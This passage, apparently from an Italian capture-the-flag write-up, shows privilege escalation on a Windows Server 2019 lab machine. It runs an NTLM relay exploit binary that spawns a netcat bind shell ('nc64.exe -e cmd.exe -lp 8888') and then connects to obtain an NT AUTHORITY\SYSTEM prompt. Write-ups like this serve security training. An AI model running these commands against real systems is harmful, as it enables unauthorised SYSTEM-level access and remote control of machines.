systeminfo                                                                                                                                                                          

Host Name:                 KAAROT
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA946
Original Install Date:     2/26/2020, 3:58:23 AM
System Boot Time:          3/3/2020, 9:00:31 PM
System Manufacturer:       innotek GmbH
...
...
```

Ora non ci resta che lanciare l’exploit per aprire una nuova bind shell come system

```
C:\Windows\Temp\y>.\r.exe -l 5985 -p c:\windows\temp\y\nc64.exe -a "-e c:\windows\system32\cmd.exe -lp 8888"
.\r.exe -l 5985 -p c:\windows\temp\y\nc64.exe -a "-e c:\windows\system32\cmd.exe -lp 8888"

Listening for connection on port 5985 .... 

Received http negotiate request

Sending the 401 http response with ntlm type 2 challenge

Received http packet with ntlm type3 response

Using ntlm type3 response in AcceptSecurityContext()

BITS triggered!

[+] authresult 0
NT AUTHORITY\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 1314

[+] CreateProcessAsUser OK
```

Collegandoci sulla porta 8888

```
$ proxychains nc 127.0.0.1 8888
ProxyChains-3.1 (http://proxychains.sf.net)
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```
